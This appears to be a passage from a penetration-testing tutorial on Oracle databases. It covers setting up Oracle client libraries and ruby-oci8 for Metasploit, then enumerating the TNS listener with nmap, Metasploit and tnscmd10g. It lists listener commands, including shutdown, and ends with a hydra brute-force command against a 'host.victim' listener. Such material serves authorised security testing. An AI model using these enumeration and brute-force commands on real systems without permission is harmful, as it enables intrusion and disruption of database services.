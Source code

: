 Add Oracle libraries to ldconfig:
1
	echo "/opt/oracle/instantclient_12_1/" >> /etc/ld.so.conf.d/99_oracle

If you have succeeded, you should be able to run sqlplus from a command prompt (you may need to log out and log back in again):
1
	sqlplus <username>/<password>@<ip_address>/<SID>;

Step Two — Install Ruby Gem ruby-oci8
These steps are needed to use metasploit oracle modules
Install other OS dependencies:
1
	apt-get install libgmp-dev

Compile and install ruby-oci8 (root)
1
2
3
4
5
6
	wget https://github.com/kubo/ruby-oci8/archive/ruby-oci8-2.1.8.zip
unzip ruby-oci8-2.1.8.zip
cd ruby-oci8-ruby-oci8-2.1.8/
make
make install
gem install ruby-oci8

Restart msfconsole (or restart the machine).
Enumeration
Tools that can be used for this are: nmap, MSF and tnscmd10g.
TNS listener version
1
2
3
4
	nmap --script "oracle-tns-version" -p 1521 -T4 -sV <IP>
msf> use auxiliary/scanner/oracle/tnslsnr_version
#apt install tnscmd10g
tnscmd10g version -p 1521 -h <IP>

Other useful TNS listener commands:
Command	Purpose
ping	Ping the listener
version	Provide output of the listener version and platform information
status	Return the current status and variables used by the listener
services	Dump service data
debug	Dump debugging information to the listener log
reload	Reload the listener configuration file
save_config	Write the listener configuration file to a backup location
stop	Invoke listener shutdown
If you receive an error, could be because TNS versions are incompatible (Use the --10G parameter with tnscmd10) and if the error persist, the listener may be password protected (you can see a list were all the errors are detailed here) — don’t worry… hydra to the rescue:
1
	hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
